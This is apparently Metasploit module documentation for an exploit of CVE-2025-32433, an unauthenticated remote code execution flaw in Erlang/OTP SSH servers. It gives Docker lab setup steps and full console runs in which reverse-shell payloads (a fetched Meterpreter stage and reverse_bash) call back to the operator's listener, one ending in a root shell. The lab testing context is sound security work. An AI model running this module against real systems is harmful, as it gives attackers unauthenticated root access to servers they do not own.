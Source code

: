 ## Vulnerable Application

Erlang/OTP is a set of libraries for the Erlang programming language.

Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20, a SSH server may allow an attacker
to perform unauthenticated remote code execution (RCE).

By exploiting a flaw in SSH protocol message handling, a malicious actor could gain unauthorized access
to affected systems and execute arbitrary commands without valid credentials. This issue is patched in
versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20.

### Introduction

This module detect and exploits CVE-2025-32433, a pre-authentication vulnerability in Erlang-based SSH
servers that allows remote command execution. By sending crafted SSH packets, it executes a payload to
establish a reverse shell on the target system.

The exploit leverages a flaw in the SSH protocol handling to execute commands via the Erlang `os:cmd`
function without requiring authentication.

## Testing

### Vulnerable application

Execute the following commands:

```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
docker build -t cve-ssh:latest .
docker run -d -p 2222:2222 cve-ssh:latest
```

### Patched application

Execute the following commands:

```bash
git clone https://github.com/exa-offsec/ssh_erlangotp_rce
cd ssh_erlangotp_rce/patched
docker build -t patched-ssh:latest .
docker run -d -p 2223:2223 patched-ssh:latest
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/ssh/ssh_erlangotp_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios

### Using linux commands (Target 0)

Use the linux commands CMD.

```
msf exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   RHOSTS     192.168.0.1          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      2222                 yes       The target port (TCP)
   SSH_IDENT  SSH-2.0-OpenSSH_8.9  yes       SSH client identification string sent to the server

Payload options (cmd/linux/https/x64/meterpreter/reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS    false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             192.168.0.1      yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port

   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      tVzpeXtmX        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces

Exploit target:

   Id  Name
   --  ----
   0   Linux Command

View the full module info with the info, or info -d command.

msf exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.0.1:4444 
[*] 192.168.0.1:2222 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.0.1:2222 - Starting scanner for CVE-2025-32433
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - The target is vulnerable.
[*] 192.168.0.1:2222 - Starting exploit for CVE-2025-32433
[+] 192.168.0.1:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - Payload sent successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> 172.17.0.2:35770) at 2025-04-27 20:23:02 +0400

meterpreter > 
```

### Using unix commands (Target 1)

Use the unix commands CMD.

```
msf exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   RHOSTS     192.168.0.1          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      2222                 yes       The target port (TCP)
   SSH_IDENT  SSH-2.0-OpenSSH_8.9  yes       SSH client identification string sent to the server

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Unix Command

View the full module info with the info, or info -d command.

msf exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.0.1:4444 
[*] 192.168.0.1:2222 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.0.1:2222 - Starting scanner for CVE-2025-32433
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - The target is vulnerable.
[*] 192.168.0.1:2222 - Starting exploit for CVE-2025-32433
[+] 192.168.0.1:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - Payload sent successfully
[*] Command shell session 1 opened (192.168.0.1:4444 -> 172.17.0.2:59042) at 2025-04-27 20:24:41 +0400

whoami
root
```

## References

1. <https://x.com/Horizon3Attack/status/1912945580902334793>
2. <https://platformsecurity.com/blog/CVE-2025-32433-poc>
3. <https://github.com/ProDefense/CVE-2025-32433>
